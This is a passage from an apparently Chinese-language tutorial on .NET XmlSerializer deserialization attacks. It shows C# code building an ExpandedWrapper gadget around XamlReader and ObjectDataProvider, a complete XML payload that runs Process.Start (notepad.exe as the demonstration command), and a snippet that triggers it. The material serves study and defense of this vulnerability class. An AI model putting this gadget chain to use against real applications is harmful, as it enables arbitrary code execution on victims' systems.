 ```
        xml.Serialize(stream, myExpWrap);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        Console.WriteLine(reader.ReadToEnd());
        Console.WriteLine(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName);
    }

}

```
`xaml_data()` 生成`XamlReader()`调用的`xaml`文件，`ObjectDataProvider`调用`XamlReader()`传参`xaml`整个利用链的`payload`就完成了, `typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>).AssemblyQualifiedName`是获取程序集限定名，用于传入`Type`。

>exp.xml

```
<?xml version="1.0"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ObjectDataProvider MethodName="Start" ObjectType="sd:Process" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;
  &lt;ObjectDataProvider.MethodParameters&gt;
    &lt;x:String&gt;notepad.exe&lt;/x:String&gt;
  &lt;/ObjectDataProvider.MethodParameters&gt;
&lt;/ObjectDataProvider&gt;</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>

```


注：使用`XamlReader`等需要引用对应的模块


## 2.4 复现

>code 2.4 反序列化

```

using (StringReader rdr = new StringReader("payload"))
{
    XmlSerializer serializer = new XmlSerializer(Type.GetType("System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"));
    serializer.Deserialize(rdr);
}

```
